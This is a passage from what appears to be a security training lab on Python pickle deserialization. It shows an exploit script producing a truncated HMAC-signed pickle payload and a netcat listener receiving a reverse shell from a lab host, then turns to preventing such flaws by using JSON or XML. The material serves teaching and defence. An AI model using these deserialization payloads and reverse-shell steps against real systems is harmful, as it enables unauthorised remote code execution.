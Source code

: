 Running the updated exploit code will give us a longer payload (since it includes an HMAC at the end).

```shell
python3 exploit.py

gASVPAAAAAAAAACMBXBvc2l...SNIP...5IC1lIC9iaW4vc2iUhZRSlC4=.jlPg/hUsa4aLr0SpFq06Xya0i8IJzyh6ELt...SNIP...I5CyQa2yejlPNX5Tg==

```

We can start a local Netcat listener, paste the cookie value in and receive a reverse shell as in the previous section.

```shell
nc -nvlp 9999

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.43.164.
Ncat: Connection from 192.168.43.164:37992.
ls -l
total 52
-rw-r--r-- 1 kali kali  2037 Oct 12 06:21 app.py
-rw-r--r-- 1 kali kali   184 Oct 12 06:17 Dockerfile
-rw-r--r-- 1 kali kali    15 Oct 12 06:18 flag.txt
-rw-r--r-- 1 kali kali 20480 Oct 12 08:02 htbooks.sqlite3
drwxr-xr-x 2 kali kali  4096 Oct 12 06:21 __pycache__
-rw-r--r-- 1 kali kali    27 Oct 12 06:17 requirements.txt
drwxr-xr-x 4 kali kali  4096 Oct 12 06:17 static
drwxr-xr-x 2 kali kali  4096 Oct 12 06:17 templates
drwxr-xr-x 3 kali kali  4096 Oct 12 06:21 util

```


# Avoiding Deserialization Vulnerabilities

* * *

To follow along with this section, SSH into the target with the credentials you found in `/var/www/htbank/creds.txt`. Both `Vim` and `Nano` are installed on the machine.

* * *

## Introduction to Safe Data Formats

In the previous section, we patched the deserialization vulnerability using HMACs. However, we continued to demonstrate that, combined with an LFI vulnerability or some other way to read files on the server, we would still be able to get remote code execution.

In both Python and PHP, we've seen how deserialization vulnerabilities occur when `unserialize`, `pickle.loads`, `yaml.load`, or a similar function is called. If we were to instead use a safer data format such as JSON or XML and altogether avoid the use of a deserialization function, then these problems should theoretically be avoided.

